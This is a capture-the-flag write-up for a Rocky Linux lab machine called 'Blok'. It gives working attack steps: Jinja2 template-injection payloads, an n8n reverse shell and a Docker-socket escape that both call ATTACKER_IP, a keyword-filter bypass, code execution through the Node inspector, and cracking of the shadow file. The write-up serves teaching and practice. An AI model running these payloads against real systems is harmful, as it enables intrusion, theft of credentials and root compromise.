


<div align="center">


# Blok - Writeup

**Rocky Linux 9 · Difficulty: Hard**

Five exposed services, two tenant keys, an SSTI panel that turns into a shell,
a SOCKS pivot to loopback-only services, and **two independent paths to root**.

</div>

```bash
export MACHINE_IP=10.10.10.10     # target (DHCP; may change between sessions)
export ATTACKER_IP=10.10.10.1     # your tun0
```

---

## Machine info

| | |
|---|---|
| **OS** | Rocky Linux 9 (minimal) |
| **External services** | `21/ftp`, `22/ssh`, `80/http`, `8080/http`, `5678/n8n` |
| **Internal services** (loopback, reachable after pivot) | `5000` (runner), `9229` (Node inspector) |

---

## Map - recon & entry



---

## 1. Recon

Full TCP scan + a look at the landing page. Five services show up (FTP, SSH, nginx,
n8n on 5678, a Flask/Werkzeug panel on 8080).

```bash
nmap -sV -Pn -p- $MACHINE_IP
```


The landing page on `:80` hints at a new panel at `/witaj` and mentions an internal
workflow server on port `5678`. An HTML comment nudges toward a leftover **backup**.

---

## 2. HTTP - SSH key leak → `ferdek`

Directory enumeration reveals a forgotten `/backup/` with `autoindex on`. Inside is an
archive containing Ferdynand's **private SSH key** - download, extract, log in.

```bash
gobuster dir -u http://$MACHINE_IP/ \
  -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt

wget http://$MACHINE_IP/backup/home_ferdek_backup.tar.gz
tar -xvf home_ferdek_backup.tar.gz          # .ssh/id_rsa
chmod 600 .ssh/id_rsa
ssh -i .ssh/id_rsa ferdek@$MACHINE_IP        # foothold: ferdek
```

<p align="center">
  
  
</p>
<p align="center">
  
  
</p>

> 🚩 **User flag (ferdek)** - `/home/ferdek/user.txt`

**Finding:** directory listing + a sensitive backup (private key) served over HTTP.

---

## 3. FTP - git history → `waldek`

Port `21` runs anonymous FTP serving a git repo of the panel (`/pub/blok-panel`). Mirror
it **with the `.git` folder** and walk the history. `main` is clean, but `git branch -a`
reveals a side branch `wip-deploy` with an accidentally committed private SSH key.

```bash
# anon FTP → mirror repo (incl. .git)
wget -m ftp://$MACHINE_IP/pub/blok-panel/
cd $MACHINE_IP/pub/blok-panel

# history reveals another branch + a commit with a key
git log --all --oneline
git branch -a
git show wip-deploy:deploy/id_rsa > waldek_id      # or: git checkout wip-deploy

chmod 600 waldek_id
ssh -i waldek_id waldek@$MACHINE_IP                # foothold: waldek
```

<p align="center">
  
  
  
</p>

> 🚩 **User flag (waldek)** - `/home/waldek/user.txt`

**Finding:** private SSH key committed to a repo (visible in history / side branch),
repo exposed anonymously over FTP.

---

## 4. SSTI → RCE as `webapp`

The panel at `/witaj?name=` drops the parameter straight into a Jinja2 template.
`{{7*7}}` returns `49` - SSTI confirmed. Pivot through the `self` gadget to
`__builtins__` for command execution as **`webapp`**. In the app directory there's a
`.env` with **n8n credentials** - the breadcrumb to the next step.

```python
# detection:
{{7*7}}

# RCE as webapp (self → __builtins__ → import os):
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

# read the flag (640, owned by webapp - needs code-exec, not just {{7*7}}):
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat service.txt').read() }}

# read the secret → n8n creds:
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat .env').read() }}
```

<p align="center">
  
  
  
</p>

> 🚩 **Service flag (SSTI)** - `/opt/webapp/service.txt` (readable only after escalating
> SSTI to RCE as `webapp`; the file is `640 webapp:webapp`)

**Finding:** SSTI in a custom app; secret (`.env`) kept inside the app directory.

---

## 5. n8n → RCE as `node`

Log into n8n with the creds from `.env`. n8n lets you run code inside nodes - in an
**Edit Fields** node's *Value*, drop a JS expression that reaches `child_process` via
`this.process.mainModule.require`. That's RCE as **`node`** (inside the n8n container),
then a reverse shell.

```javascript
// RCE (result in node output):
{{ (function(){ return this.process.mainModule.require('child_process')
                     .execSync('id').toString() })() }}

// reverse shell (pure Node; listener: nc -lvnp 4444):
{{ (function(){
     var require = this.process.mainModule.require;
     var net = require("net"), cp = require("child_process"),
         sh = cp.spawn("/bin/sh", []);
     var s = new net.Socket();
     s.connect(4444, "ATTACKER_IP", function(){
         s.pipe(sh.stdin); sh.stdout.pipe(s); sh.stderr.pipe(s); });
     return /a/;
   })() }}
```

<p align="center">
  
  
</p>

> 🚩 **Service flag (n8n)** - `/home/node/service_flag.txt` (inside the n8n container)

**Finding:** exposed automation service, login with leaked creds, built-in code
execution (feature abuse).

---

## Map - pivot & privesc



---

## 6. Pivot - SOCKS via `ssh -D`

Services `5000` and `9229` listen on `127.0.0.1` only (see `ss -tulnp`). As `ferdek`,
stand up a dynamic SSH tunnel (SOCKS) and route `proxychains` through it. For clicking
the panels in a browser, set the same SOCKS in Firefox
(`network.proxy.allow_hijacking_localhost = true`, otherwise Firefox bypasses the proxy
for `127.0.0.1`).

```bash
# /etc/proxychains4.conf  ->  socks4  127.0.0.1 9050
ssh -i .ssh/id_rsa -D 9050 -N ferdek@$MACHINE_IP

proxychains curl -s http://127.0.0.1:5000/
proxychains curl -s http://127.0.0.1:9229/json/list
```

<p align="center">
  
  
</p>
<p align="center">
  
  
</p>

> **Breadcrumbs:** `~/.bash_history` and the `fish` history of `ferdek`.

---

## 7. Privesc #1 - Runner + `docker.sock`

The internal *IT Script Runner* executes Python but filters keywords (`import`, `os`,
`exec`, …). The filter is substring-based - bypass it by splitting names from strings.
That's RCE as **root inside the container**; enumeration shows a mounted
`/var/run/docker.sock`.

```python
# naive input is blocked:  import os  ->  [FILTR] niedozwolone slowo: 'import'

# bypass (RCE as root-in-container):
print(getattr(getattr(__builtins__,'__imp'+'ort__')('o'+'s'),'pop'+'en')('id').read())

# confirm the socket mount:
print(getattr(getattr(__builtins__,'__imp'+'ort__')('o'+'s'),'pop'+'en')('ls -la /var/run/*.sock').read())
```

<p align="center">
  
  
  
</p>

> 🚩 **Container flag** - `/root/container_flag.txt` (inside the `it-runner` container)

**Escape:** the image has no `docker` client, so talk to the daemon directly over the
socket API. Create a container that mounts the whole host FS (`-v /:/host`) and runs a
reverse shell after `chroot` into the host context - lands as **root on the host**.

```bash
# from the container shell (listener: nc -lvnp 4444):
curl -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
  http://localhost/containers/create?name=pwn2 \
  -d '{"Image":"it-runner","Cmd":["chroot","/host","/bin/bash","-c",
       "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"],
       "HostConfig":{"Binds":["/:/host"]}}'

curl -s --unix-socket /var/run/docker.sock -X POST \
  http://localhost/containers/pwn2/start
```

<p align="center">
  
  
</p>

> 🚩 **Root flag** - `/root/root.txt`

**Finding:** mounting the Docker socket into a container == root on the host.

---

## 8. Privesc #2 - Node `--inspect`

The `healthworker` service runs as **root** with an open debugger port (`--inspect`) on
loopback. Through the pivot, grab the `webSocketDebuggerUrl` and use the CDP protocol
(`Runtime.evaluate`) to run code in the root process. Bare `require` isn't in scope, so
reach it via `process.mainModule.require`.

```bash
proxychains curl -s http://127.0.0.1:9229/json/list      # -> webSocketDebuggerUrl
```

```python
# command execution as root (through proxychains):
import json, urllib.request, websocket
ws = json.load(urllib.request.urlopen("http://127.0.0.1:9229/json/list"))[0]["webSocketDebuggerUrl"]
c = websocket.create_connection(ws)
c.send(json.dumps({"id":1,"method":"Runtime.evaluate","params":{
    "expression":"process.mainModule.require('child_process').execSync('id').toString()",
    "returnByValue":True}}))
print(c.recv())
```

<p align="center">
  
  
  
</p>

> 🚩 **Root flag** - `/root/root.txt` (second, independent path)

**Finding:** an open debugger port (`--inspect`) on a root process == remote code
execution as root.

---

## 9. Bonus - `disk` group & cracking

With root, dump `/etc/shadow` and crack. `boczek` and `marian` fall to `rockyou`;
`edzio` needs a Polish wordlist (cert.pl). Rocky uses **yescrypt** (`$y$`), so john needs
`--format=crypt`.

```bash
unshadow passwd.txt shadow.txt > crack.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt crack.txt   # boczek, marian
john --wordlist=./wordlist_pl.txt --format=crypt crack.txt                  # edzio
```


**Abusing the `disk` group:** `edzio` is in group `disk` (raw block-device read). The FS
is XFS, so `debugfs` won't work - use `xfs_db`. Grab the inode number from `ls -i`
(`/etc` is browsable), then read its data block, bypassing permissions.

```bash
su edzio
id                                         # groups=...,6(disk)
ls -i /etc/shadow                          # -> inode number (N)
xfs_db -r -c "inode N" -c "dblock 0" -c "type text" -c "print" /dev/mapper/rlm-root
```


**Finding:** excessive `disk` group membership → read any file, bypassing permissions.

### Other findings

- SSH: `PermitRootLogin yes` + `PasswordAuthentication yes`.
- `/opt/app/config.old` world-readable with credentials (bait / blind finding).

---

## Flag locations

> Values intentionally omitted - go get them. 🙂

| # | Flag | Location | How you get there |
|---|------|----------|-------------------|
| 1 | User (`ferdek`) | `/home/ferdek/user.txt` | SSH key from HTTP `/backup/` |
| 2 | User (`waldek`) | `/home/waldek/user.txt` | SSH key in git branch `wip-deploy` (anon FTP) |
| 3 | Service (SSTI) | `/opt/webapp/service.txt` | SSTI → RCE as `webapp` |
| 4 | Service (n8n) | `/home/node/service_flag.txt` | n8n login (leaked creds) → RCE |
| 5 | Container | `/root/container_flag.txt` | Runner filter bypass → root in container |
| 6 | Root | `/root/root.txt` | `docker.sock` escape **or** Node `--inspect` |

---

<div align="center">

*Blok wita. Mordo, ogarnij ten serwer.*

</div>
